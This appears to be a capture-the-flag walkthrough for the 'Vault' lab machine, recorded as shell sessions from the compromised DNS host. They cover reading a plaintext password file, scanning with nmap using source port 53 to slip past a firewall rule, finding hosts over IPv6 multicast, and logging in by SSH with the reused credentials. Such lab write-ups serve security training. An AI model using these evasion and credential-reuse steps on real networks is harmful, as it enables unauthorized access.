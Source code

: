 # 20 - DNS + Configurator


# Files
```bash
root@DNS:/home# find . -type f -ls
   531726      0 -rw-r--r--   1 alex     alex            0 Jul 17  2018 ./alex/.cache/motd.legal-displayed
   530462      4 -rw-r--r--   1 alex     alex          655 Jul 17  2018 ./alex/.profile
   531727      0 -rw-r--r--   1 alex     alex            0 Jul 17  2018 ./alex/.sudo_as_admin_successful
   533607      4 -rw-r--r--   1 alex     alex          222 Jul 17  2018 ./alex/.ssh/known_hosts
   533426      4 -rw-------   1 alex     alex          638 Jul 24  2018 ./alex/.bash_history
   531129      4 -rw-r--r--   1 alex     alex         3771 Jul 17  2018 ./alex/.bashrc
   531714      4 -rw-r--r--   1 alex     alex          220 Jul 17  2018 ./alex/.bash_logout
   279224      4 -rw-rw-r--   1 dave     dave           33 Sep  3  2018 ./dave/user.txt
   280304      0 -rw-------   1 dave     dave            0 Jul 17  2018 ./dave/.gnupg/pubring.gpg
   280301     12 -rw-------   1 dave     dave         9398 Jul 17  2018 ./dave/.gnupg/gpg.conf
   280303      0 -rw-------   1 dave     dave            0 Jul 17  2018 ./dave/.gnupg/secring.gpg
   280294      0 -rw-r--r--   1 dave     dave            0 Jul 17  2018 ./dave/.cache/motd.legal-displayed
   280290      4 -rw-r--r--   1 dave     dave          655 Jul 17  2018 ./dave/.profile
   280298      0 -rw-r--r--   1 dave     dave            0 Jul 17  2018 ./dave/.sudo_as_admin_successful
   280296      4 -rw-r--r--   1 dave     dave         1110 Sep  2  2018 ./dave/.ssh/known_hosts
   280297      4 -rw-------   1 dave     dave            5 Sep  3  2018 ./dave/.bash_history
   280305      4 -rw-r--r--   1 root     root           19 Jul 17  2018 ./dave/ssh
   280291      4 -rw-r--r--   1 dave     dave         3771 Jul 17  2018 ./dave/.bashrc
   280306      4 -rw-------   1 dave     dave           49 Sep  3  2018 ./dave/.Xauthority
   280292      4 -rw-r--r--   1 dave     dave          220 Jul 17  2018 ./dave/.bash_logout
```

# New SSH credentials
```bash
root@DNS:/home# cat ./dave/ssh
dave
dav3gerous567
```





# Vault's IP address
```bash
root@DNS:/var/www/html# cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       DNS
192.168.5.2     Vault
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

# IP route table
```bash
root@DNS:/var/www/html# ip route
192.168.5.0/24 via 192.168.122.5 dev ens3 
192.168.122.0/24 dev ens3  proto kernel  scope link  src 192.168.122.4 
```

192.168.5.0/24 subnet is routed via the firewall

# Nmap is installed on the box
```bash
root@DNS:/# which nmap
/usr/bin/nmap
root@DNS:/# cat DNS.nmap
# Nmap 7.01 scan initiated Fri Jul 16 09:58:51 2021 as: nmap -v -Pn -oA DNS 192.168.5.2
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0019s latency).
Not shown: 998 filtered ports
PORT     STATE  SERVICE
53/tcp   closed domain
4444/tcp closed krb524

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jul 16 09:59:07 2021 -- 1 IP address (1 host up) scanned in 15.86 seconds

```

* -Pn: `Do not send icmp, the server does not respond to ping requests`

Closed state mean the target server responds to Nmap probe packets but there is no application listening on it.
https://nmap.org/book/man-port-scanning-basics.html

This is interesting because we know that 192.168.122.5 is the firewall standing between us and Vault and we got 53 as closed. This may be a misconfiguration, instead of allowing forward requests to 53 they may have allowed `from 53 to any` and `from any to 53` as two different rules. If that is the case we can abuse it by setting our own source port number to 53.


```bash
root@DNS:/# cat DNS-53.nmap 
# Nmap 7.01 scan initiated Fri Jul 16 10:19:53 2021 as: nmap -Pn DNS --source-port 53 -oA DNS-53 192.168.5.2
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0036s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
987/tcp open  unknown

# Nmap done at Fri Jul 16 10:19:56 2021 -- 1 IP address (1 host up) scanned in 3.44 seconds
```

# SSH
```
root@DNS:/# nc -p53  192.168.5.2 987
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```


Unfortunately ssh doesn't have the option to specify a source port. There are ways to get around that. IPv6 can be tried


# IPv6 host discovery
```sql
root@DNS:/root# ip maddress                                                                    
1:      lo
        inet  224.0.0.1        
        inet6 ff02::1                                                                          
        inet6 ff01::1
2:      ens3    
        link  33:33:00:00:00:01
        link  01:00:5e:00:00:01
        link  33:33:ff:17:ab:49
        inet  224.0.0.1
        inet6 ff02::1:ff17:ab49
        inet6 ff02::1
        inet6 ff01::1
4:      tun0
        inet6 ff02::1
        inet6 ff01::1
```

Multicast address for all the nodes on ens3 is `ff01::1`

```bash
root@DNS:/root# ping6  -I ens3  ff02::1
PING ff02::1(ff02::1) from fe80::5054:ff:fe17:ab49 ens3: 56 data bytes
64 bytes from fe80::5054:ff:fe17:ab49: icmp_seq=1 ttl=64 time=0.018 ms
64 bytes from fe80::5054:ff:fec6:7066: icmp_seq=1 ttl=64 time=0.809 ms (DUP!)
64 bytes from fe80::5054:ff:fe3a:3bd5: icmp_seq=1 ttl=64 time=0.816 ms (DUP!)
64 bytes from fe80::5054:ff:fee1:7441: icmp_seq=1 ttl=64 time=1.18 ms (DUP!)
64 bytes from fe80::5054:ff:fe17:ab49: icmp_seq=2 ttl=64 time=0.062 ms
64 bytes from fe80::5054:ff:fec6:7066: icmp_seq=2 ttl=64 time=2.00 ms (DUP!)
64 bytes from fe80::5054:ff:fe3a:3bd5: icmp_seq=2 ttl=64 time=2.01 ms (DUP!)
64 bytes from fe80::5054:ff:fee1:7441: icmp_seq=2 ttl=64 time=2.51 ms (DUP!)
64 bytes from fe80::5054:ff:fe17:ab49: icmp_seq=3 ttl=64 time=0.064 ms
64 bytes from fe80::5054:ff:fec6:7066: icmp_seq=3 ttl=64 time=1.86 ms (DUP!)
64 bytes from fe80::5054:ff:fe3a:3bd5: icmp_seq=3 ttl=64 time=1.87 ms (DUP!)
64 bytes from fe80::5054:ff:fee1:7441: icmp_seq=3 ttl=64 time=2.95 ms (DUP!)
```

# ip neighbor & ssh

Shows the current neighbour table in kernel.
```bash
root@DNS:/root# ip neigh
192.168.122.1 dev ens3 lladdr fe:54:00:17:ab:49 REACHABLE
fe80::5054:ff:fec6:7066 dev ens3 lladdr 52:54:00:c6:70:66 REACHABLE
fe80::5054:ff:fee1:7441 dev ens3 lladdr 52:54:00:e1:74:41 STALE
fe80::5054:ff:fe3a:3bd5 dev ens3 lladdr 52:54:00:3a:3b:d5 STALE
root@DNS:/root# cat /home/dave/ssh
dave
dav3gerous567
root@DNS:/root# ssh  -6 -l dave fe80::5054:ff:fec6:7066%ens3 -p987
dave@fe80::5054:ff:fec6:7066%ens3's password: dav3gerous567
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

96 packages can be updated.
49 updates are security updates.


Last login: Fri Jul 16 13:30:08 2021 from fe80::5054:ff:fe17:ab49%ens3
dave@vault:~$ 

```
